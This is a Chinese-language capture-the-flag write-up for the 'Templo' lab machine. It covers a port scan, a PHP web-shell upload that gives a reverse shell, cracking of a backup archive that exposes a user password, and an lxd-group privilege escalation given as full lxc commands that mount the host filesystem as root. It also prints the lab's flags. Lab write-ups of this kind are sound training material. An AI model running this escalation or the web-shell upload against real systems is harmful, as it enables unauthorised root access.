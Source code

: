 # Templo

2025.03.03 https://thehackerslabs.com/templo/

[video](https://www.bilibili.com/video/BV1qm9vYKEc5/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，在源码中发现 `NAMARI lo es todo solo debes probar`。

扫描发现 http://192.168.5.40/wow/clue.txt， 线索 Vamos al /opt ，提示去/opt，但是目前没进入到系统。

访问 NAMARI 目录，上面能上传文件和读取文件，再次对这个目录进行扫描，发现 http://192.168.5.40/NAMARI/uploads/ ， 尝试上传 php web shell 然后访问 http://192.168.5.40/NAMARI/uploads/8888.php 就在 kali 上得到了反弹的 shell。

根据前面线索，进入 /opt 发现 backup.zip，下载到 kali ，john 得到解码密码得到字符串 `6rK5£6iqF;o|8dmla859/_` 应该是 rodgar 用户的密码。

切换用户拿到 user flag：

```
rodgar@TheHackersLabs-Templo:~$ cat user.txt
3e6ae8a53cc7e954a8433af59920dc7e
```

当前用户在 lxd 组中可以利用 lxd 权限提权：

```
find / -name lxc 2>/dev/null

/usr/sbin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage
/usr/sbin/lxc image list

/usr/sbin/lxc storage create pool dir
/usr/sbin/lxc profile device add default root disk path=/ pool=pool
/usr/sbin/lxc init lxcimage ignite -c security.privileged=true
/usr/sbin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/sbin/lxc start ignite
/usr/sbin/lxc exec ignite /bin/sh
```

最后拿到了 root flag：

```
cd /mnt/root
cd root
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
